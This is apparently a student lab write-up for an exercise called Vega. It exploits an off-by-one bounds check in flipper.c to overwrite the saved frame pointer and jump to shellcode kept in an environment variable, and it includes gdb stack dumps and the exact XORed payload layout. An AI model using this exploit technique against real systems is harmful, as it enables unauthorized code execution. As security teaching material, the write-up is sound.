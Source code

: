 # 01 - Vega Writeup

## Main Idea

The code is vulnerable the boardary check in flip in off by one, It should be less than 64, however, the boardary check in code is less and equal than 64. This can lead to a off-by-one attack.

There is a clever methods to bypass the check of RIP. At first, we use the address of shellcode to fill in all the buffer. And then use the off-by-one attack to overwrite the SFP. At second, the function will return rightly, but the SFP is tampered. Next, the tampered SFP will impact RIP of function in the next call. Since the whole buffer is filled with address of shellcode, we will return to the SHELLCODE.

Don't forget to flip the output of args according to the `flipper.c`.

## address of shellcode

Firstly, we need to find the location of SHELLCODE (), which is in the environment variable. So we know the shellcode begins with `0xcd58326a`, thus the magic number is `0xffffdf9c`

``` c++
(gdb) p environ[0]
$1 = 0xffffd801 "SHLVL=1"
(gdb) p environ[1]
$2 = 0xffffd809 "PAD=", '\377' <repeats 196 times>...
(gdb) p environ[2]
$3 = 0xffffdf7e "TERM=screen"
(gdb) p environ[3]
$4 = 0xffffdf8a "SHELL=/bin/sh"
(gdb) p environ[4]
$5 = 0xffffdf98 "EGG=j2X̀\211É\301jGX̀1\300Ph-iii\211\342Ph+mmm\211\341Ph//shh/b
in\211\343PRQS\211\341\061Ұ\v̀"
(gdb) x/16x environ[4]
0xffffdf98:     0x3d474745      0xcd58326a      0x89c38980      0x58476ac1
0xffffdfa8:     0xc03180cd      0x692d6850      0xe2896969      0x6d2b6850      
0xffffdfb8:     0xe1896d6d      0x2f2f6850      0x2f686873      0x896e6962      
0xffffdfc8:     0x515250e3      0x31e18953      0xcd0bb0d2      0x57500080 
```

## address of return address (RIP)

We can get RIP by `info frame`, which is `0xfffd614`
(gdb) i f

``` c++
Stack level 0, frame at 0xffffd618:
 eip = 0x8049260 in invoke (flipper.c:20); saved eip = 0x804927a
 called by frame at 0xffffd608
 source language c.
 Arglist at 0xffffd610, args:
    in=0xffffd7bf "\274\377\337߼\377\337߼\377\337߼\377\337߼\377\337߼\377\337߼\377\337߼\377\337߼\377\337߼\377\337߼\377\337߼\377\337߼\377\337߼\377\337߼\377\337߼\377\337\337 "
 Locals at 0xffffd610, Previous frame's sp is 0xffffd618
 Saved registers:
  ebp at 0xffffd610, eip at 0xffffd614
```

## address of buf

We can get the address of buf by `print &buf`, which is `0xffffd5d0`

```C++
(gdb) p &buf
$6 = (char (*)[64]) 0xffffd5d0
```

## the stack before attack

```c++
(gdb) x/20x buf
0xffffd5d0:     0x00000000      0x00000001      0x00000000      0xffffd78b
0xffffd5e0:     0x00000002      0x00000000      0x00000000      0x00000000
0xffffd5f0:     0x00000000      0xffffdfe5      0xf7ffc540      0xf7ffc000
0xffffd600:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd610:     0xffffd61c      0x0804927a      0xffffd7bf      0xffffd628
```

## the stack after attack

note that the SFP is tampered to 0xfffd600, the new RIP will be the SFP + 4 = 0xfffd604

```C++
(gdb) x/20x buf
0xffffd5d0:     0xffffdf9c      0xffffdf9c      0xffffdf9c      0xffffdf9c
0xffffd5e0:     0xffffdf9c      0xffffdf9c      0xffffdf9c      0xffffdf9c
0xffffd5f0:     0xffffdf9c      0xffffdf9c      0xffffdf9c      0xffffdf9c
0xffffd600:     0xffffdf9c      0xffffdf9c      0xffffdf9c      0xffffdf9c
0xffffd610:     0xffffd600      0x0804927a      0xffffd7bf      0xffffd628
```

## EGG output

Thus the output of arg will be  `52 * "A" + "\x9c\xdf\xff\xff" + 8 * "A" + "\x00"` xor `\x20`

`52 for pad` + `4 for the address of shellcode` + `8 for pad` + `\x00 for tamper the SFP`

Don't forget to flip the output with 0x20.
